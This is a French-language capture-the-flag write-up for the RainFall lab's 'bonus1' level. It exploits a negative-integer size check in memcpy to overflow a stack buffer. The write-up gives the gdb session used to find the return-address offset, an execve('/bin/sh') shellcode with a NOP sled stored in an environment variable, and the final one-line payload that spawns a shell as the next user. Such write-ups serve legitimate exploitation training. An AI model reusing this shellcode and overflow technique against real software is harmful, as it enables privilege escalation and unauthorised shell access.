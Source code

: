 # Soluce

Payload : 
```
cat | ./bonus1 -2147483628 $(python -c 'print("A" * 56 + "\x1c\xf3\xff\xbf")')
```

## Description du code

-   2 variable sont declarer dans le main, un buffer d'une taille de 40 et un int, dest et v5
-   Ensuite cela fait un atoi sur argv[1] et stock le resultat dans v5 
-   Si v5 est superieur a 9 cela return 1
-   Cela fait un memcpy,qui copie argv[2] dans dest, d'une taille de 4 * v5, dans un size_t
-   Le reste du code ne sera pas important pour ce niveau

## Explication

On peu constater plusieur chose, deja la condition qui check v5 ne check pas si elle est negatif, du coup v5 peu etre un chiffre compris entre INT_MIN et 9, ensuite l'argument qui defini la taille de ce qui va etre copier dans dans dest est multiplié par 4 et est stocker dans un size_t qui est focement positif.

On va pouvoir du coup profiter du wrapping des limite de type pour faire overflow memcpy, testons les valeurs pour savoir les limites de type, avec notre programe en c :
```
#########################################################################
#include <stdio.h>                                                      #
#include <stdlib.h>                                                     #
                                                                        #
int main(int ac, char **av){                                            #
    int v5 = atoi(av[1]);                                               #
    printf("*4: %zu\n", (size_t)(4 * v5));                              #
    printf("*1: %zu\n", (size_t)(v5));                                  #
    printf("/4: %zu\n", ((size_t)(v5))/4);                              #
}                                                                       #
#########################################################################
```

bonus1@RainFall:/tmp$ ./doop -1
*4: 4294967292
*1: 4294967295
/4: 1073741823
bonus1@RainFall:/tmp$ ./doop 4294967295
*4: 4294967292
*1: 2147483647
/4: 536870911
bonus1@RainFall:/tmp$ ./doop -2147483647
*4: 4
*1: 2147483649
/4: 536870912
bonus1@RainFall:/tmp$ ./doop -2147483648
*4: 0
*1: 2147483648
/4: 536870912
bonus1@RainFall:/tmp$ ./doop -2147483618
*4: 120
*1: 2147483678
/4: 536870919

On peu en deduire ceci :

size_t est seulement un unsigned int ici, si l'on entre INT_MIN cela donne UINT_MAX + 1 donc 0, et cela sera la taille fournis a memcpy.
Plus qu'a retirer le nombre d'octet que l'on veut pour generer un buffer overflow :

bonus1@RainFall:~$ ./bonus1 -2147483618 $(python -c 'print("A" * 40')
Segmentation fault (core dumped)

maintenant observont les registre :

bonus1@RainFall:~$ gdb ./bonus1 

```
(gdb) b main
Breakpoint 1 at 0x8048427

(gdb) run  -2147483618 $(python -c 'print("A" * 40)')
Starting program: /home/user/bonus1/bonus1 -2147483618 $(python -c 'print("A" * 40)')

Breakpoint 1, 0x08048427 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x90909090 in ?? ()

(gdb) info r
eax            0x0      0
ecx            0x90909090       -1869574000
edx            0xbfffef5c       -1073746084
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffef20       0xbfffef20
ebp            0x90909090       0x90909090
esi            0x0      0
edi            0x0      0
eip            0x90909090       0x90909090
eflags         0x200293 [ CF AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

On vois bien que l'adresse de retour a ete overwrite, maintenant plus qu'as determiner l'offset :

```
(gdb) run  -2147483618 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483618 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

Breakpoint 1, 0x08048427 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x39624138 in ?? ()
(gdb) info r
eax            0x0      0
ecx            0x39644138       962871608
edx            0xbfffef0c       -1073746164
ebx            0xb7fd0ff4       -1208152076
esp            0xbfffeed0       0xbfffeed0
ebp            0x62413762       0x62413762
esi            0x0      0
edi            0x0      0
eip            0x39624138       0x39624138
eflags         0x200212 [ AF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

0x39624138 = 8Ab9 = 56 in Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

maintenant plus qu'as faire notre payload:

On peu faire ret to libc ou un shellcode :


export SHELLCODE=$(python -c 'print("\x90" * 2000 + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80")')
```
(gdb) run
Starting program: /home/user/bonus1/bonus1 

Breakpoint 1, 0x08048427 in main ()
(gdb) call (char*)getenv("SHELLCODE")
$1 = 0xbffff129 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
```
0xbffff129 + 500 = 0xbffff31d ; pour tomber dans le nop sled 

---
## Payload :

[ Int min + 30 ] + [ Padding de 56 ] + [ Adresse du shellcode + 500 ]
```
bonus1@RainFall:~$ cat | ./bonus1 -2147483628 $(python -c 'print("A" * 56 + "\x1c\xf3\xff\xbf")')
whoami
bonus2
```